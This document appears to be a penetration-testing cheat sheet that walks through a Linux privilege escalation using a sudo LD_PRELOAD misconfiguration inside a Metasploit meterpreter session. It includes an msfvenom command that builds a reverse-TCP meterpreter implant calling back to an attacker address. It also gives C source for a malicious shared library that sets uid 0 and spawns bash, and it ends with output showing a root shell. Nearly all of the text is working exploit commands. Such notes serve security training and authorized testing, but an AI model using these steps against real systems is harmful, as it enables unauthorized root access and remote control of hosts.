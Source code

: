 # Metasploit

## 01 - Detect

```
meterpreter > execute -if sudo -a "-l"
Process 2673 created.
Channel 23 created.
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
..[omitted]..
```

## 02 - Exploit

```
meterpreter > mkdir exploit
Creating directory: exploit
```

### 2.1 - Generate an implant via `msfvenom`

TODO: Show the steps when using `LD_PRELOAD` for escalating privileges.

```
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=443 -f elf-so -o implant.so

meterpreter > upload implant.so exploit/
```

### 2.2 - Compile the implant

```
meterpreter > cd exploit/
meterpreter > edit shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
meterpreter > execute -if gcc -a "-fPIC -shared -o shell.so shell.c -nostartfiles"
Process 2698 created.
Channel 25 created.
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2710 created.
Channel 26 created.
cd exploit
user@debian:~/exploit$ sudo LD_PRELOAD=~/exploit/shell.so apache2
root@debian:/home/user# id
id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# exit
exit
exit
apache2: bad user name ${APACHE_RUN_USER}
user@debian:~$ exit
exit
exit
```

## 03 - Cleanup

```
meterpreter > cd ..
meterpreter > rmdir exploit/
Removing directory: exploit/
```